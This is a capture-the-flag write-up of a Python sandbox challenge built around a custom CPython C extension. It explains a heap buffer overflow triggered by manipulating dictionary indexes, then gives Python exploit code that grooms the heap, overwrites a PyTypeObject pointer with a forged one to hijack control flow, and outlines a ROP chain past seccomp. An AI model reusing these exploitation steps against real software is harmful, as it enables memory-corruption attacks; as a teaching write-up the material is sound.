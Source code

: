 
**Disclaimer** 

We haven't finished the challenge on time, just a few hours after the CTF was over. After the write-ups started flowing we noticed that we solved it with an unintended bug, so we decided to write about it because it's kinda cool.

**Overview**

The challenge consists of several files. The authors provided a Python3.6 file, an .so called Collection.cpython-36m-x86_64-linux-gnu.so, a server-side program called server.py which we communicate with and a test.py file which consists of an example of how to use the Collection module.

The server.py expects from the user a python code, to concatenate it with a script prefix:
	
	from sys import modules
	del modules['os']
	import Collection
	keys = list(__builtins__.__dict__.keys())
	for k in keys:
            if k != 'id' and k != 'hex' and k != 'print' and k != 'range':
                del __builtins__.__dict__[k]
	

By reading the prefix above, we know that we can only work with the 'id','hex','print','range' python's builtins and the custome Collection module which written in C using the CPython API- this is the .so file we mentioned before.

The server.py code also creates a file descriptor(AKA-fd) of the flag file, duplicates it to another fd with the number 1023, and closes the original fd.

Our goal is to open the 1023 fd in order to read the flag.

Solves: 30
Points: 150

**Down To work**

The first called functions in the CPython module is the PyInit_Collection, which is equivalent to the "main" function of any .so or .dll, that being called once the library is loaded.

For each created instance of this class several methods are called:
	sub_1700 - we gave it the name: handle_object_creation. 

This function verifies that the input is a dictionary not larger than 32 members, parses the tuples and creates the structers by calling their init functions:
	Nodes- a double linked list, with a pointer to a record struct.
	Record- the record of the member- the key, the value and the type (long, list,or dict)

The Collection is a python object. The program allocates 0x118h bytes for it- the first 0x18h bytes are for the header, which consits of the reference count and a pointer to a PyTypeObject, which contains function pointers to the functions of the object.
The other 0x100 bytes are for the values of the input dict:
ints- stored as is
lists, dicts- a pointer to the data that stored.

The only function that can be called on an instance of Collection is 'get'. 
When called, behind the scenes several functions are called- the PyTypeObject is dereferenced and GenericSetAttr is called first.

Basically, that’s what we need to know before we understand the vulnerablitty.


**The Vulnerablitty**

After digging into nearly every function in the library, we checked again the handle_object_creation function and noticed something we haven't noticed before.

As was described earlier, this function parses the input dictionary, but we didn't mention that it works with the _PyDict_Next method of the Dictionary Object.

    Iterate over all key-value pairs in the dictionary p. The Py_ssize_t referred to by ppos must be initialized to 0 prior
    to the first call to this function to start the iteration; the function returns true for each pair in the dictionary, 
    and false once all pairs have been reported. The parameters pkey and pvalue should either point to PyObject* variables
    that will be filled in with each key and value, respectively, or may be NULL. Any references returned through them are
    borrowed. ppos should not be altered during iteration. Its value represents offsets within the internal dictionary
    structure, and since the structure is sparse, the offsets are not consecutive.

Based on its documentation we understood that each dictionary member has an internal indexing system in the dictionary structure. Later on, the Collection library uses it as an offset into an array and initializing for this Collection dictionary members.
We also know that we can't create a collection from a dictionary bigger than 32 members, which is exactly the size of the array buffer in memory.

    call PyDict_Next
    test eax, eax
    ...
    mov [r14+rax*8+10h], rdi
     
    
What if we can change the indexing of the members in the dictionary to overflow this buffer?


	x = {}
	for i in range(34):
	    if i == 32:
	        x["%d" % (i)] = 0x41414141 
	    elif i == 33:
	        x["%d" % (i)] = 0x12121212
	    else:
	        x["%d" % (i)] = 0xffffff00 + i 

	for i in range(2):
	    del x["%d" % (i)]



Using the del function in python we were able to create a dictionary with 32 members, but the index of the members was modified so we wrote outside the Array and overwritten the object that was next in memory!


**The Exploit**

We have a relative write primitive on the heap, but we need to get something interesting to be right after us. What is more interesting than a Collection Pyobject with a PyTypeObject pointer which is basically a vtable which later we can trigger it by calling the "get" function?

We started the heap shaping creating 5 collections, deleting the middle one and creating a hole which we need to  create the overflowing collection in it, to overflow the 3rd collection header, the PyTypeObject pointer to point to a "pyTypeObject" that we created, so when we will call 'get' on that collection, it will search the pointer to it in the PyTypeObject- methods attribute.

Very soon we discovered that the garbage collector is deleting our collections.

Each PythonObject has an attribute called ob_refcnt, which states the refernce count to the object.
so, we needed to hold a list with pointers to the collections to prevent from the garbage collector to delete our collections.

	avoid_gc = []
	holes= []
	consec_counter = 0
	hole_idx = 0
	length = 0
	for i in range(5):
             temp = Collection.Collection({"1":4, "2":i})
             avoid_gc.append(temp)
             length += 1
			
              if length > 1:
                   if id(temp) - 0x118 == id(avoid_gc[-2]):   
		   #This means that we created a consecutive allocation on the heap
                       consec_counter += 1
		    
                   else:
		       consec_counter = 0
                   if consec_counter == 2 and hole_idx == 0: 
                       hole_idx = i
                       hole_holder = temp
                       consec_counter = 0

	del avoid_gc[hole_idx-1]

Now we need to create our own PyTypeObject to point to, which will be used when we will call 'get' on the overwritten object.

The function which will be called first is the PyObject_GenericSetAttr, it is in offset 0x13h in the PyTypeObject.tp_getattro slot. 

If we will overwrite that pointer we will get a jump primitive to our own code!


	PyTypeObject = {}
	for i in range(0,32):
             if i == 0x13: 
	     # PyObject_GenericSetAttr spot
                 PyTypeObject["%d" % i] = 0x41414141
                 continue
    
            PyTypeObject["%d" % i] = 0x30303030 + i #RBP
   

	PyTypeObject = Collection.Collection(PyTypeObject)

We will need to point the PyTypeObject pointer to the Collection we just created.
If you remember, our controlled data starts right after the header at offset 0x18



	x = {}
	for i in range(34):
	
            if i == 32:
                x["%d" % (i)] = 0x2
            elif i == 33:
                x["%d" % (i)] = id(PyTypeObject) + 0x18
            else:
                x["%d" % (i)] = 0xffffff00 + i

	for i in range(2):
            del x["%d" % (i)]


	a = Collection.Collection(x)



Now, all we have left is to write the rop in order to read the fd.

A seccomp defense mechanism is embedded in the code. 
The seccomp mechanism acts like a filter of which syscalls can be called from within the process context. 

After an extensive analysis we understood that we can call the Readv function and the Write function in order to read the flag. 


See the code for further information😊




